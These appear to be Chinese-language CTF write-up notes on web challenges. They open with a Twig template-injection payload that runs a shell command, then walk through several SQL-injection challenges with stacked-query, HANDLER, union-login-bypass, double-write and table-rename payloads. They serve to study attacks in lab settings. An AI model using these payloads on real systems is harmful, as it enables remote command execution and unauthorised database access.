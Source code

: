```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

## SQL注入

### [GYCTF2020]Blacklist

sql堆叠注入

手注检测1'，show tables;出表名列名，但是对select rename等都有过滤，无法rename修改表。这里使用handler

```
handler FlagHere open;handler FlagHere read first;# 
用法：handler test open as c;handler c read `PRIMARY`=(5);
handler test open;handler test read data first;handler test read data next;handler test read `data`=("yza");
```

### [GXYCTF2019]BabySQli

考察手工注入和联合注入会产生虚拟数据

手注1'，有报错，看源代码，有提示一串字符，base32和64解码后有select * from user where username = '$name'

联合注入3行，猜测id,user,pw，联合注入会产生数据，第二个写admin，第三个写md5值，password填md5前密码 ，成功登录

### [极客大挑战 2019]BabySQL

过滤了where from union select 等，在sql提醒中消失，是replace，使用双写绕过爆库

### [SUCTF 2019]EasySQL

过滤很多注入，没过滤堆叠

select $_GET['query'] || flag from flag  查询源码

```
在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接，但在mysql 缺省不支持。需要调整mysql 的sql_mode
模式：pipes_as_concat 来实现oracle 的一些功能
```

1;set sql_mode=PIPES_AS_CONCAT;select 1

### 强网杯2019 sql注入

堆叠注入

?inject=1';show columns from `1919810931114514`;#

**字符串为表名操作时要加反引号( ` )**

rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#

因为没禁用rename和alter，所有利用重命名改原本的word成words1，flag表名为words，最后用1' or 1 = 1#爆字段即可

### ciscn2021 easy_sql


[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604